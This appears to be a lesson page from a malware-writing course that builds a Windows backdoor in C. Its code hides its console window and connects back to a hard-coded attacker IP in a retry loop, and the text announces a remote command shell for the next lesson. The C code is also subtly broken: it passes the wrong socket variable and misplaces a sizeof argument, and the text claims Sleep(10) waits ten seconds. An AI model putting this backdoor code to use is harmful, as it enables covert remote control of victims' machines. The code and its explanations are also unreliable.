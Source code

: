 ```yaml
---
title: Stablishing connection
course: code_malware
section: "Building sockets"
layout: lesson
---
```


Before we can take a break by working in our main function and start working in
our malware functionalities, we need to stablish the actual connection, let's do
that.

To perform a connection, we can use the "_connect_" function. To use it, simply
invoke it and pass the socket as first argument, for the second argument, pass
the memory location of the server address "_ServAddr_", but we have to also
convert it to "**struct** sockaddr", to do so, simply open brackets before
"_&ServAddr_" and type "```(struct sockaddr *)```" and the third and last
parameter will be the actual size of the "_ServAddr_". That newly created line
would look like this:

```c
connect(sock, (struct sockaddr *) &ServAddr, sizeof(ServAddr));
```

This is not the only thing we are going to code, we want our backdoor to try to
connect to the target every 10 seconds. Why? Well, imagine you delivered the
payload to the target, and they start it before you start the server, it will
try to connect to your server, even before you it is started and waiting for
incoming connections, so it will execute the code only to this part as it will
return an error because the connection was not successful. How do we do it?
Simple. We will execite the connect function every ten seconds until it is
connected to the server. So create a while loop which condition will be the
previously called function plus "!= 0" at the end, so... That portion of the
code will be executed until the returned value of "_connect_" is not equal to
zero, when it is equals to zero, it means the connection was stablished and our
program will continue its execution. In the inside of our while loop, add
"Sleep(10);" which will make our Backdoor not to do anything for the amount of seconds
we entered, in this case, 10. Right below "Sleep(10);" we will add "goto
start;". What is start? Well, actually, we haven't implemented it yet, so let's
go to the before of our while loop and add "start:".

We have defined something called "**start**" right before the while loop, so
let's imagine that line "**start:**" is some kind of a checkpoint, when called
will execute our while loop which checks if a connection is stablished, if it
is, then it will stop that portion of code, so the "**start:**" _checkpoint_
won't be called again and continue with the program execution.

When the connection is stablished (below/after the connect while loop) we will
call the "_Shell_" function and in the next lesson we will code our Shell
function which will receive the commands we send from the server, will execute
them and send the output back to server.

This is how our code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
